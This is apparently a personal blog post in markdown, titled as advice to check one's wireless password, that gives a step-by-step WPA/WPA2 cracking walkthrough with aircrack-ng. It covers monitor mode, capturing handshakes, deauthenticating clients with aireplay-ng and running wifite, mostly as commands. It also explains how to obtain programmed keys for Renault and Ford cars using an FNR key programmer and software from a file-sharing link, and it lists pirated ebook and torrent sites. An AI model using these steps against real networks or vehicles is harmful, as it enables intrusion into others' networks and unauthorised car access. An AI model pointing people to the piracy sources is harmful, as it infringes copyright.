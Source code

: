 ```yaml
---
layout: post
title: Check your wireless password, or someone could intrude ?
---
```


# Introduction

Wireless is open to attack. Network can be interuppted at any time.

# Hardware

~~~
lspci -m
~~~

Best is supported some of [this](http://www.wirelesshack.org/top-kali-linux-compatible-usb-adapters-dongles-2015.html)

* AR9271
* RT3070
* RT3572
* RTL8187L

You can check also [aircrack
compatibility drivers](http://www.aircrack-ng.org/doku.php?id=compatibility_drivers)

# Installation

~~~
sudo su
apt-get install aircrack-ng reaver
man airodump-ng
ifconfig # find wireless adapters, for example wlan0

airmon-ng check
airmon-ng check kill
airmon-ng
airmon-ng start wlan0 # this will create another adapter mon0
~~~

`airmon-ng start` will show a message that other programs could interfere. You
can `sudo pkill NetworkManager` but it will just restart it. So far so good, all
those programs could stay running (but you should disconnect from all networks).

# Theory

[WPA/WPA2](https://www.aircrack-ng.org/doku.php?id=cracking_wpa&DokuWiki=3mlmhn080hqo8eb6p0qsqpvas4)
supports many types of authentication, and only PSK (pre-shared key) AUTH is
crackable. There is no difference between cracking WPA and WPA2.
There is no benefit from collectin IVs. Only we can do is to get handshake when
client connects to the network. Than we can test our dictionary with 300 keys
per second.

~~~
# list all networks (BSSID), channel (CH) and clients
airodump-ng mon0 -w output
airodump-ng mon0 --bssid 12:12:12:12:12:12 -w output
# better is to use channel option -c since more packets are stored
airodump-ng mon0 -c 1 -w output
~~~

Instead of waiting you can deauthenticate some clients:

~~~
aireplay-ng -0 1 -a 12:12:12:12:12:12 -c 11:11:11:11:11:11 --ignore-negative-on mon0
# it should returns some number of ACK [ 5|55 ACKs]
~~~

Note that you can capture all networks (any handshare will be stored) but more
packets will be stored if you listen on specific frequency.
On top of the page it should say: `WPA handshake: 12:12:12:12:12:12` but it
could be replaces with some info. You can check anytime if some od handshake are
stored

~~~
aircrack-ng output*.cap
~~~

Use two different cards, when you run `iwconfig` then one should show `IEEE
802.11bg` and another `IEEE 802.11bgn`.

# Wifite

<https://github.com/derv82/wifite>

~~~
wget https://raw.github.com/derv82/wifite/master/wifite.py
chmod +x wifite.py
sudo ./wifite.py
~~~

# FNR Renault Ford

Just to note that it's easy to get keys of Renault or Ford cars.
Buy [remote key smart
card](https://www.aliexpress.com/item/2PCS-New-quality-Remote-Key-433-MHz-W-Chip-ID46-for-RENAULT-Megane-Scenic-Smart-Card/32650476913.html)
and [fnr key prog for
renault](https://www.aliexpress.com/item/High-Quality-FNR-Key-Prog-For-Renault-For-Ford-For-Nissan-4-IN-1-Key-Programmer/1000001169897.html)
(you also need a usb key, since it is required for software), software you can
download on
[mediafire](http://www.mediafire.com/file/l6jj1xd855612i5/KEY-PROG-sk127.rar
)

Add self to virtual box users `sudo usermod -a -G vboxusers orlovic` and attach
Usb key and go to settings -> usb -> add -> FTDI FT232R USB UART, cable that you
buyed.

Change port number to ![com port 12]({{ site.baseurl }}/assets/posts/port12.png)

# PDF torrent books

Maybe not so nice to share, but also interesing index of books:

* https://it-ebooks.info/tag/rails/
* http://www.allitebooks.com/

Other torrent sites

* https://thepiratebay.org

